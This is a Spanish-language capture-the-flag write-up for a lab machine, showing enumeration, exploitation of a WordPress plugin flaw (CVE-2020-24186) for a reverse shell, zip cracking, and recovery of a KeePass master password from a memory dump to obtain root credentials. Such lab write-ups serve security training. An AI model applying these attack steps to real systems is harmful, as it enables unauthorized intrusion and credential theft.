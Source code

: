 ```yaml
---
title: "Mortadela - WriteUp"
date: Fri Aug 23 2024 11:28:12 GMT+0200 (Central European Summer Time)
categories: [WriteUps, TheHackerLabs, Linux]
tags: [wordpress, CVE-2020-24186, CVE-2023-32784, dotnet, keepass-password-dumper]
image: /assets/img/cabeceras/2024-08-23-mortadela---writeup.jpg
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Fri Apr  5 09:59:23 2024 as: nmap -sCV -p 22,80,3306 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xsl -oN targeted -oX targetedXML 192.168.1.44
Nmap scan report for 192.168.1.44
Host is up (0.00053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 aa:8d:e4:75:bc:f3:f8:5e:42:d0:ee:ca:e2:c4:0b:97 (ECDSA)
|_  256 ae:fd:91:ef:42:71:cb:11:b9:66:97:bf:ec:5b:d6:4b (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, LongColumnFlag, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, FoundRows, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: yi~aH%{bWnCA^76IK}Sf
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:0E:4B:CF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

FUZZ 

Descubrimos que corre un Wordpress:
```bash
$ dirsearch -u http://192.168.0.108 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405113824.png)

Hacemos un escaneo de plugins con NMAP y descubrimos dos, pero uno nos llama la atneción:

```bash
$ nmap -p80 192.168.0.108 --script http-wordpress-enum --script-args http-wordpress-enum.root='/wordpress/',search-limit=1000
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114001.png)


## Explotación

Buscamos vulnerabilidades y encontramos dos que se adaptan perfectamente a la versión:

```bash
$ se wpdiscuz
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114143.png)

Probamos el SearSploit pero no nos convence. Vamos a buscar por la web.

Encontramos este y nos funciona perfectamente. Creamos el archivo con la URL y ejecutamos el plugin.

https://github.com/meicookies/CVE-2020-24186

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114418.png)

```bash
$ ./CVE-2020-24186 site.txt
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114501.png)

Vemos que es vulnerable y nos ha subido un archivo PHP con el que poder subir archivos.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114541.png)

Vamos a probar de subir un shell remoto. El por defecto en estos casos.

Nos ponemos a la espera, subimos el archivo PHP con la web que hemos creado y pa dentro!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114917.png)

Sanitizamos consola y empezamos a enumerar:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405115151.png)

Encontramos un archivo sospechoso en /opt...

Nos lo bajamos a nuestro equipo y vemos que tiene contraseña. Le pasamos john...

```bash
$ zip2john muyconfidencial.zip > confidencial.hash
...
$ john --wordlist=/usr/share/wordlists/rockyou.txt confidencial.hash
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405120859.png)

Contraseña de descompresión: _pinkgirl_

Descomprimimos y mostramos el contenido:

Contiene dos archivos, un dumpeo de keepass y otro que es la BBDD de Keepass:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405121117.png)

Buscamos info y encontramos el repositorio [KeePass Password Dumper](https://github.com/vdohney/keepass-password-dumper)

Debemos emular un proyecto hecho en C# y pasarle el DUMP del Keepass. Con este programa llamado _dotnet_ creamos una lista de posibles contraseñas para romper la seguridad de la base de datos del Keepass.

Instalamos [DOTNET LINUX](https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#manual-install) para Linux.

Nos clonamos el repositorio arriba mencionado y ejecutamos lo siguiente:

```bash
$ dotnet run ../KeePass.DMP passwordlist 
```

---

## Notas

Si recibimos el error del tipo:

_"/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0."_

Simplemente editamos el archivo _.csproj_ y en la línea con la etiqueta < TargetFramework > indicamos la versión que tengamos, en mi caso tuve que poner la `net6.0`

---

Recibiremos la siguiente salida:

```bash
Found: ●9
Found: ●;
Found: ●H
Found: ●[
Found: ● 
Found: ●f

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f, 
3.:	r, 
4.:	i, 
5.:	t, 
6.:	r, 
7.:	i, 
8.:	n, 
9.:	i, 
10.:	1, 
11.:	2, 
12.:	3, 
13.:	4, 
14.:	5, 
Combined: ●{a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f}ritrini12345
16 possible passwords saved in passwordlist. Unknown characters indicated as ●
```

Casi casi tenemos el password. Ahora con con _john_ y _hashcat_ terminaremos la faena:


## Escalada

Obtenemos el hash de la BBDD de Keepass (archivo Database.kdbx):

```bash
$ keepass2john Database.kdbx > database.hash
```

Y por último pasamos _hashcat_ :

```bash
$ hashcat -m 13400 --username database.hash passwordlist
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405124929.png)

Aunque nos haya dado "Exhausted" y nos falte el primer carácter del password podemos intuir cuáles son los candidatos a password final:

```http
Maritrini12345
maritrini12345
```

Abrimos el archivo .kdbx con Keepass o en mi caso ya que trabajo en Linux con _KeePassXC_ y en contraseña probamos la primera con la M mayúscula y bingo! Entramos en la BBDD!

Y nos muestra con gran afecto el password de root!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125330.png)

Credenciales:

```http
root:Juanikonokukunero
```

Las probamos en nuestra consola y...

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125511.png)

Enhorabuena! somos root y podemos registrar las flags!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130451.png)



![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130041.png)

